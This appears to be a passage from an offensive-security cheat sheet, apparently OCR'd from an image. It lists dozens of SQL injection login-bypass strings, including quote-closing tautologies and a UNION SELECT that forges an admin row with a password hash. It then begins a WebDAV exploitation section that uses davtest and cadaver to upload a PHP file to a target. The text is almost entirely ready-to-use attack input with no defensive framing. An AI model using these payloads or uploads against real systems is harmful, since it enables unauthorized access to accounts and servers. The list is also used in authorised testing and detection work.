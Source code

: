 ```
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
```

### Exploiting WebDav 
If one method fail, another should be tested. If nothing work, Find different exploit!

Method 1:
```
davtest -url http://$target/webdav
cadaver http://$target/webdav
> put test.php
```
